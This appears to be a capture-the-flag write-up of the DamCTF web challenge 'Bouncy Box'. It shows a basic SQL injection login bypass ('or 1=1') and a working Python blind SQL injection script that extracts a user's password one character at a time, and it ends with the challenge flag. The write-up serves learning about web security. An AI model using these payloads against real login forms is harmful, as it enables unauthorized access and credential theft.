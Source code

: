 # Bouncy Box

Here is my writeup for the first web challenge of DamCTF

The challenge url is https://bouncy-box.chals.damctf.xyz

## First look

First we can see a little game, when we lose it asks us to login.

![login_page](images/login_page.png)

There is a lot of way to bypass authentication but most of time it's SQL Injection, so we can supposed that it's an SQL Injection challenge.

## First Injection

I tried to inject ``' or 1=1 -- -`` (the most basic SQLi) and it worked!

![connected](images/login.png)

We can see a button to get the flag but it's not that easy...

We have a second login but the injection is impossible, maybe the query is prepared. So how to bypass this authent...

We can easily do a blind SQL injection on the first login form to retrieve the password. Here is my code:
```py
import requests
import string

chars = string.printable[:94]

result = ""

for i in range(1, 100):
    found = False
    for char in chars:
        data = {'username_input':f"boxy_mcbounce' AND ascii(substring(password, {i}, 1)) = {ord(char)}-- -", "password_input":"random"}
        r = requests.post("https://bouncy-box.chals.damctf.xyz/login", data=data)
        if "boxy_mcbounce's Stats" in r.text:
            result += char
            print(f"\r[\x1b[92m+\x1b[0m] Found: {result}", end="")
            found = True
            break
    if not found:
        print(f"[\x1b[92m+\x1b[0m] Password found: {result}")
        break
```

We just have to wait for the password printed and put it in the second form.

Flag: ``dam{b0uNCE_B0UNcE_b0uncE_B0uNCY_B0unce_b0Unce_b0Unc3}``